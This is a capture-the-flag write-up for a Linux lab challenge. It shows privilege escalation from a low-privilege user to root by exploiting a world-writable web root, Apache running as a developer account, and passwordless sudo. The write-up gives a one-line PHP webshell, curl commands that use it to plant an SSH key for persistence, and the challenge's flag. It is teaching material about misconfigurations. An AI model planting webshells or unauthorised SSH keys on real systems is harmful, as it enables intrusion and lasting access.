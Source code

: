 # Undercover#2

### Category

System

### Description

Now that you proved yourself, You have to assess the security of one of their developpers systems. He's a very good coder, but not that good at keeping his system safe. Could you report to us any vulnerabilities you find in his system?

The base credentials are:
```
user1:password123
```

NB: the content of the website is not relevant, you should get a 500 anyway ;)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

We can connect as `user`. It turns out, that the folder /var/www/html is world writable.
```
user@e3eb9614f8a6:~$ ls -ld /var/www/html
drwxrwxrwx 1 root root 4096 Apr  8 10:48 /var/www/html
```

We also notice that the apache server is running as the `dev` user, instead of the `www-data` user.
```
user@e3eb9614f8a6:~$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  18388  3064 ?        Ss   10:47   0:00 /bin/bash /root/start.sh
root          12  0.0  0.0 327136 16904 ?        Ss   10:47   0:00 /usr/sbin/apache2 -k start
root          14  0.0  0.0  72312  5756 ?        S    10:47   0:00 /usr/sbin/sshd -D
dev           15  0.0  0.0 331780 12912 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           16  0.0  0.0 331772 12368 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           17  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           18  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           19  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
root          22  0.0  0.0 103864  7168 ?        Ss   10:47   0:00 sshd: user [priv]
user          33  0.0  0.0 103864  3680 ?        R    10:47   0:00 sshd: user@pts/0
user          34  0.0  0.0  20372  3848 pts/0    Ss   10:47   0:00 -bash
user          58  0.0  0.0  38460  3456 pts/0    R+   10:50   0:00 ps -aux
```

The easy thing to do here, is to write a webshell into the `/var/www/html` folder. You can echo it, or use vim.
```php
<?php system($_GET["cmd"]) ?>
```

And here we go.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

Let's get a shell. To do so, we can simply copy our public ssh key to a world readable place, like the `/tmp` folder.
```
user@e3eb9614f8a6:~$ cp ~/.ssh/id_rsa.pub /tmp/authorized_keys
```

Using our webshell, we can just copy the key to `dev`'s `.ssh` folder.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=mkdir%20/home/dev/.ssh
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=cp%20/tmp/authorized_keys%20/home/dev/.ssh
user@e3eb9614f8a6:~$ ssh dev@localhost
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.13.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dev@e3eb9614f8a6:~$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

At this point, getting a shell as root is very easy.
We notice that the dev user can run any root command without any password (probably for more comfort).
```
dev@e3eb9614f8a6:~$ sudo -l
Matching Defaults entries for dev on e3eb9614f8a6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev may run the following commands on e3eb9614f8a6:
    (ALL) NOPASSWD: ALL
dev@e3eb9614f8a6:~$ sudo /bin/bash
root@e3eb9614f8a6:~# id
uid=0(root) gid=0(root) groups=0(root) 
root@e3eb9614f8a6:~# cat /root/flag.txt 
Hero{3w-d4ta_1s_n0t_us3l3s5}
```

NB: The reason why I didn't run the apache server as root directly for the challenge, is that the apache2 binary itself won't be ran as root. To achieve it anyway, I would have had to recompile a patched apache2 binary.

### Flag

```Hero{3w-d4ta_1s_n0t_us3l3s5}```